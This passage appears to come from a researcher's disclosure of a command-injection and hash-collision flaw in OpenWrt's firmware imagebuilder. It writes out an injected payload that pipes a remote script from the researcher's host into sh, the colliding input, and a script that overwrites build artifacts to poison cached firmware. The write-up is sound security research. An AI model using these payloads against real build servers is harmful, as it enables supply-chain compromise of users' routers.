 When I checked the output after a while, the Hashcat calculated all possible patterns, but it didn't find 12-character collisions. This was because I calculated the space of `?l?l?l?l?l?l?l?l?l?l` wrongly.  

`?l` is a mask pattern that generates `a-z`, so the space of `?l?l?l?l?l?l?l?l?l?l` (10 characters) is `26^10 = 141,167,095,653,376`, which is about half of `2^48 = 281,474,976,710,656`.  
But, while calculating the space, I incorrectly calculated it as `26^11 = 3,670,344,486,987,776`, and thought that it should be enough to find the collision.  

So, I fixed the mask pattern to `?l?l?l?l?l?l?l?l?l?l?l` (11 characters) and left it running again. After executing the command, I wondered if I could make the brute-forcing faster, so I started to poke the Hashcat.  

Soon, I noticed that the performance drastically increased when I moved the mask pattern to the start of the command like `` `?l?l?l?l?l?l?l?l?l?l?l `curl -L tmp.ryotak.net/|sh` ``  
With a bit of testing, I confirmed that I can increase the speed about 36 times by simply changing the pattern to the following:
```
`?l?l?l?l?l?l?l?l?l?l?l||curl -L tmp.ryotak.net/8f7018b33d94|sh`
```

By using this pattern, the Hashcat was able to calculate the hashes at the speed of 18 billion hashes per second. Within an hour, the Hashcat found the 12 characters collision:

```
$ printf '`slosuocutre||curl -L tmp.ryotak.net/8f7018b33d94|sh`' | sha256sum
8f7018b33d9464976ab199f100812d2d24d5e84a76555c659e88e0b6989a4bd8  -
```

Sending this payload as the `packages` parameter, the command injection is triggered and the script from `tmp.ryotak.net` is executed.  
I placed the following script in `tmp.ryotak.net/8f7018b33d94`, which overwrites the artifact produced by the imagebuilder.  

```sh
cat >> /builder/scripts/json_overview_image_info.py <<PY
import os
files = os.listdir(os.environ["BIN_DIR"])
for filename in files:
    if filename.endswith(".bin"):
        filepath = os.path.join(os.environ["BIN_DIR"], filename)
        with open(filepath, "w") as f:
            f.write("test")
PY
```

Then, as the hash collision occurred, the server returns the overwritten build artifact to the legitimate request that requests the following packages:
```
base-files busybox ca-bundle dnsmasq dropbear firewall4 fstools kmod-gpio-button-hotplug kmod-hwmon-nct7802 kmod-nft-offload libc libgcc libustream-mbedtls logd luci mtd netifd nftables odhcp6c odhcpd-ipv6only opkg ppp ppp-mod-pppoe procd procd-seccomp procd-ujail uboot-envtools uci uclient-fetch urandom-seed urngd
```

By abusing this, an attacker could force the user to upgrade to the malicious firmware, which could lead to the compromise of the device.  


[^1]: OpenWrt is a Linux-based firmware for embedded devices, especially popular for routers. It supports a wide range of devices and is widely used for home routers.
[^2]: Also, this command injection itself is a vulnerability because the produced binary is signed with the private key in the later step.